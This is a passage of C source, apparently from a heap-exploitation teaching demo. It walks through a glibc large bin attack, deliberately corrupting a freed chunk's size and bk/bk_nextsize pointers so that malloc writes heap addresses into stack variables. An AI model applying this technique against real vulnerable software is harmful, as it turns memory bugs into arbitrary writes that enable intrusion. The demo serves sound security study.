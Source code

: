 ```c
    free(p1);
    free(p2);
    fprintf(stderr,
            "We free the first and second large chunks now and they will be "
            "inserted in the unsorted bin:"
            " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void *p4 = malloc(0x90);
    fprintf(stderr,
            "Now, we allocate a chunk with a size smaller than the freed first "
            "large chunk. This will move the"
            " freed second large chunk into the large bin freelist, use parts "
            "of the freed first large chunk for allocation"
            ", and reinsert the remaining of the freed first large chunk into "
            "the unsorted bin:"
            " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr,
            "Now, we free the third large chunk and it will be inserted in the "
            "unsorted bin:"
            " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr,
            "Now emulating a vulnerability that can overwrite the freed second "
            "large chunk's \"size\""
            " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr,
            "Basically, we decrease the size of the freed second large chunk "
            "to force malloc to insert the freed third large chunk"
            " at the head of the large bin freelist. To overwrite the stack "
            "variables, we set \"bk\" to 16 bytes before stack_var1 and"
            " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr,
            "Let's malloc again, so the freed third large chunk being inserted "
            "into the large bin freelist."
            " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```
